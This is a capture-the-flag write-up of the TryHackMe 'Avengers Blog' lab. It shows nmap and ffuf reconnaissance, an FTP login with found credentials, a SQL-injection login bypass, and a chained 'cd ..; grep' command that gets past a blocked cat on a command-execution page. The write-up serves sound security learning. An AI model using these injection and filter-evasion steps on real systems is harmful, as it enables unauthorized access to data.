 
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Avengers_Blog/images/129-1.png)

The room description encapsulates very well what i did to get all the flags.

I started with a ports scanning.
```text
# Nmap 7.80 scan initiated Tue Nov 17 05:37:42 2020 as: nmap -sS -T4 -oN sca1.txt 10.10.119.164
Nmap scan report for 10.10.119.164
Host is up (0.10s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

# Nmap done at Tue Nov 17 05:37:45 2020 -- 1 IP address (1 host up) scanned in 2.78 seconds
```

```text
# Nmap 7.80 scan initiated Tue Nov 17 05:39:22 2020 as: nmap -sV -sC -p21,22,80 -oN scan2.txt 10.10.119.164
Nmap scan report for 10.10.119.164
Host is up (0.059s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d1:83:40:8f:b2:38:32:19:22:1e:22:3e:86:ff:4f:6c (RSA)
|   256 f9:19:b5:0d:19:a1:54:99:e7:d9:f2:a2:83:72:e7:97 (ECDSA)
|_  256 77:21:d8:d3:82:a9:f2:01:7d:2d:37:72:7b:f5:d6:86 (ED25519)
80/tcp open  http    Node.js Express framework
|_http-title: Avengers! Assemble!
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Nov 17 05:39:34 2020 -- 1 IP address (1 host up) scanned in 12.37 seconds
```

![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Avengers_Blog/images/129-2.png)

The first and second flags were one in the cookies and the other in the header of the page. I enumerated service ftp with username groot and the password from the image.

```text
ftp 10.10.119.164
Connected to 10.10.119.164.
220 (vsFTPd 3.0.3)
Name (10.10.119.164:root): groot
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -lah
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
dr-xr-xr-x    3 65534    65534        4096 Oct 04  2019 .
dr-xr-xr-x    3 65534    65534        4096 Oct 04  2019 ..
drwxr-xr-x    2 1001     1001         4096 Oct 04  2019 files
226 Directory send OK.
ftp> cd files
250 Directory successfully changed.
ftp> ls -lah
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 1001     1001         4096 Oct 04  2019 .
dr-xr-xr-x    3 65534    65534        4096 Oct 04  2019 ..
-rw-r--r--    1 0        0              33 Oct 04  2019 flag3.txt
226 Directory send OK.
```

I was in a dead end, but luckily i found some pages which turned out to be useful.  

```text
./ffuf -u http://10.10.119.164/FUZZ -w /usr/share/wordlists/dirb/common.txt  -c 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.119.164/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

                        [Status: 200, Size: 7292, Words: 2394, Lines: 192]
assets                  [Status: 301, Size: 179, Words: 7, Lines: 11]
css                     [Status: 301, Size: 173, Words: 7, Lines: 11]
home                    [Status: 302, Size: 23, Words: 4, Lines: 1]
Home                    [Status: 302, Size: 23, Words: 4, Lines: 1]
img                     [Status: 301, Size: 173, Words: 7, Lines: 11]
js                      [Status: 301, Size: 171, Words: 7, Lines: 11]
logout                  [Status: 302, Size: 29, Words: 4, Lines: 1]
portal                  [Status: 200, Size: 1409, Words: 162, Lines: 31]
:: Progress: [4615/4615] :: Job [1/1] :: 288 req/sec :: Duration: [0:00:16] :: Errors: 0 ::
```

I used the most basic sqli payload and bypassed the login form.  
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Avengers_Blog/images/129-3.png)  
This form executes linux commnads and displays the result above it.  
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Avengers_Blog/images/129-4.png)

The flag is in the parent directory and the cat command is not allowed, but i managed to read the flag using grep.  
```text
cd ..; grep '' flag5.txt
```

![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Avengers_Blog/images/129-5.png)

